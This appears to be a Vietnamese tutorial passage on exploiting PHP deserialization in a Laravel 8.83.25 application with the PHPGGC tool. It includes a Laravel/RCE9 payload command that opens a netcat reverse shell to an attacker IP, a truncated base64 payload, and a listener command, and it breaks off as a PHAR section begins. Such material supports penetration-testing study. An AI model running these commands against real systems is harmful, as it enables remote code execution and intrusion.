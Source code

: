 
# 7. Sử dụng PHPGGC để khai thác lỗ hổng Deserialization và RCE

#### **1. Giới thiệu PHPGGC**
PHPGGC (**PHP Generic Gadget Chains**) là công cụ hỗ trợ khai thác lỗ hổng deserialization trong PHP. Công cụ này cung cấp các "gadget chain" - chuỗi hàm được trích xuất từ mã nguồn của các framework PHP phổ biến. Các gadget chain này có thể được dùng để:
- Đọc/ghi tệp.
- Thực thi mã từ xa (RCE).
- Và nhiều hành động khác.

#### **2. Trường hợp thực tế: Laravel Gadget Chain**
Ứng dụng đang kiểm tra sử dụng Laravel phiên bản 8.83.25. PHPGGC hỗ trợ nhiều gadget chain cho Laravel, trong đó có **Laravel/RCE9**, cho phép thực thi mã từ xa qua việc gọi hàm PHP (ví dụ: `system()`).

---

### **3. Khai thác với PHPGGC**

##### **Bước 1: Cài đặt PHPGGC**
Tải xuống và cài đặt PHPGGC từ GitHub:
```bash
git clone https://github.com/ambionics/phpggc.git
cd phpggc
```

##### **Bước 2: Tạo payload**
Sử dụng gadget chain `Laravel/RCE9` để tạo payload RCE, ví dụ lệnh tạo reverse shell:
```bash
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b
```

Lệnh này tạo chuỗi payload được mã hóa Base64:
```
Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2...SNIP...Jhc2giO319
```

##### **Bước 3: Thử nghiệm payload**
1. Chèn chuỗi Base64 vào vị trí dữ liệu mà ứng dụng dễ bị tổn thương (ví dụ: thông qua deserialization).
2. Khởi động một listener trên máy kẻ tấn công:
   ```bash
   nc -nvlp 9999
   ```
3. Sau khi payload được thực thi, bạn sẽ nhận được kết nối shell từ máy chủ.

---

### **4. Khai thác PHAR Deserialization với PHPGGC**
Nếu ứng dụng hỗ trợ tải lên tệp, ta có thể lợi dụng PHAR để khai thác. PHPGGC hỗ trợ tạo tệp PHAR chứa payload deserialization:
